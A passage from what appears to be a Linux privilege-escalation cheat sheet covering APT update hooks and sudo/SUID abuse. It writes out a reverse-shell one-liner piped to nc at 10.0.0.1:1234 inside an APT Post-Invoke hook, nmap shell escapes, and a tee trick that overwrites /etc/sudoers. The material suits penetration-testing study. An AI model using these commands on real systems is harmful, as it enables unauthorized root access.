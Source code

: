 - APT::Update::Post-Invoke, which is invoked after updates, successful or otherwise (after the previous hook in the former case).

To invoke the above, create a file in  /etc/apt/apt.conf.d/ folder specifying the NN <Name> and keep the code in that

For example:

```none
APT::Update::Post-Invoke{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f";};
```

When the apt-update would be executed, it would be executed as root and we would get a shell as a root.

## SUDO -l Permissions

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find,  zip and package installers (pip, npm).

### nmap suid

```none
nmap --script <(echo 'require "os".execute "/bin/sh"')
```

or

```none
nmap --interactive
```

### tee suid

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

```none
temp.sh
echo "example_user ALL=(ALL) ALL" > /etc/sudoers 
```

or

```none
chmod +w /etc/sudoers to add write properties to sudoers file to do the above
```

and then

```none
cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

which will add contents of temp.sh to tidyup.sh. (Assuming tidyup.sh is running as root by crontab)
